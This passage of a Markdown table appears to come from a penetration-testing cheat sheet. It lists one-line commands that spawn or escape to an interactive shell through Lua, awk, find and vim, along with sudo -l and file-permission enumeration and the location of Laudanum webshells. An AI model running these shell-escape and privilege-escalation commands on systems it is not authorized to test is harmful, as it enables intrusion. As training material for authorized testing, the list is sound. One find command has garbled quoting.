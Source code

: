 | `Lua: os.execute('/bin/sh')`                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                  | Uses `Lua` to spawn an interactive shell on a linux-based system                                                                                                                                        |
| `awk 'BEGIN {system("/bin/sh")}'`                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                             | Uses `awk` command to spawn an interactive shell on a linux-based system                                                                                                                                |
| `find / -name nameoffile 'exec /bin/awk 'BEGIN {system("/bin/sh")}' \;`                                                                                                                                                                                                                                                                                                                                                                                                                                                                       | Uses `find` command to spawn an interactive shell on a linux-based system                                                                                                                               |
| `find . -exec /bin/sh \; -quit`                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                               | An alternative way to use the `find` command to spawn an interactive shell on a linux-based system                                                                                                      |
| `vim -c ':!/bin/sh'`                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                          | Uses the text-editor `VIM` to spawn an interactive shell. Can be used to escape "jail-shells"                                                                                                           |
| `ls -la <path/to/fileorbinary>`                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                               | Used to `list` files & directories on a linux-based system and shows the permission for each file in the chosen directory. Can be used to look for binaries that we have permission to execute          |
| `sudo -l`                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                     | Displays the commands that the currently logged on user can run as `sudo`                                                                                                                               |
| `/usr/share/webshells/laudanum`                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                               | Location of `laudanum webshells` on ParrotOS and Pwnbox                                                                                                                                                 |